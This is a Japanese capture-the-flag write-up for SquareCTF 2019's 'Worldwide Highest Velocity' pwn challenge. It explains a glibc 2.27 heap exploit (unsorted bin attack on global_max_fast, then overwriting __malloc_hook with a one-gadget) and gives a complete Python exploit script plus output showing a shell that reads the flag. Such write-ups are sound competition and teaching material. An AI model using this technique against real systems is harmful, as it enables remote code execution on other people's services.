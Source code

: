 # [pwn 2000pts] Worldwide Highest Velocity - SquareCTF 2019
64-bitで全部有効です。
```
$ checksec -f worldwide_highest_velocity
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols     Yes      0               4       worldwide_highest_velocity
```
tcashと似た問題ですが、secret関数が無くなっています。ということで、0x6f8サイズのmallocとヒープオーバーフローしかありません。
tcacheかfastbinが使えないことには始まらないのでunsorted bin attackで`global_max_fast`を書き換えましょう。これでサイズ0x6f8でもfastbinと同じ扱いになります。問題はfdをどこに持っていくかという点で、fastbinはサイズチェックがあるのでチャンクサイズが0x701みたいな場所を探さなくてはいけません。競技中は頭悪いのでここでしばらく詰まったのですが、mallocだけする分には別に0x700でも問題ありません。（長い間prev_inuseが立ってるものを探してた......）malloc parameterにはtcacheに入る個数を示す7というデータがあるので、0x700は確保できます。malloc parameterの下の方に`__malloc_hook`があるので、これをone gadgetに書き換えれば終わりです。
```python
from ptrlib import *

flag = False
def exploit(stop=False):
    global flag
    if flag: return
    #sock = Process("./worldwide_highest_velocity")
    #sock = Socket("localhost", 6129)
    sock = Socket("wwhv-315c4ee98c95e6ec.squarectf.com", 6129)

    def malloc(index, size):
        sock.sendlineafter("> ", "1")
        sock.sendlineafter("?\n", str(index))
        sock.sendlineafter("size: \n", str(size))
        return

    def write(index, data):
        sock.sendlineafter("> ", "2")
        sock.sendlineafter("?\n", str(index))
        sock.sendafter("data: \n", data)
        return

    def read(index):
        sock.sendlineafter("> ", "3")
        sock.sendlineafter("?\n", str(index))
        r = sock.recvuntil("1) ")
        return r[:-3]

    def free(index):
        sock.sendlineafter("> ", "4")
        sock.sendlineafter("?\n", str(index))
        return
    
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
    libc_main_arena = 0x3ebc40
    libc_global_max_fast = 0x3ed940
    libc_mp = 0x3eb280
    libc_one_gadget = [0x10a38c, 0x4f322, 0x4f2c5, 0xe569f, 0xe5858, 0xe585f, 0xe5863, 0x10a398]

    # libc leak
    malloc(0, 0x6f8)
    malloc(1, 0x6f8) # base
    malloc(2, 0)     # base + 0x700
    malloc(3, 0x6f8) # base + 0x700
    free(0)
    malloc(0, 0x6f8)
    libc_base = u64(read(0)[:8]) - libc_main_arena - 96
    logger.info("libc base = " + hex(libc_base))
    
    # modify global_max_fast
    free(0)
    malloc(0, 0)
    free(1)
    payload  = b'A' * 0x6f8 + p64(0x701)
    payload += p64(0) + p64(libc_base + libc_global_max_fast - 0x10)
    write(0, payload + b'\n')
    malloc(1, 0x6f8)

    # use mp_
    free(1)
    payload  = b'A' * 0x6f8 + p64(0x701)
    payload += p64(libc_base + libc_mp + 0x57)
    write(0, payload + b'\n')
    malloc(1, 0x6f8)
    malloc(4, 0)
    payload = b'\x00' * 0x19
    payload += b'\x00' * 0x710
    payload += p64(0xfbad2088)
    payload += b'\x00' * 0xc0 + p64(libc_base + libc.symbol("_IO_file_jumps"))
    payload += b'\x00' * 0x150
    payload += p64(libc_base + libc_one_gadget[0])
    write(4, payload + b"\n")
    
    # get the shell!!
    free(3)
    malloc(3, 0x6f8)
    
    sock.interactive()

if __name__ == '__main__':
    exploit(stop=True)
```

いぇい。
```
$ python solve.py 
[+] __init__: Successfully connected to wwhv-315c4ee98c95e6ec.squarectf.com:6129
[+] exploit: libc base = 0x7f3ccc40b000
[ptrlib]$ cat /home/wwhv/flag.txt
[ptrlib]$ Nice job nailing the hardest puzzle! flag-25628006A770E154355A1C86B5F1
```

# 感想
面白かったです。
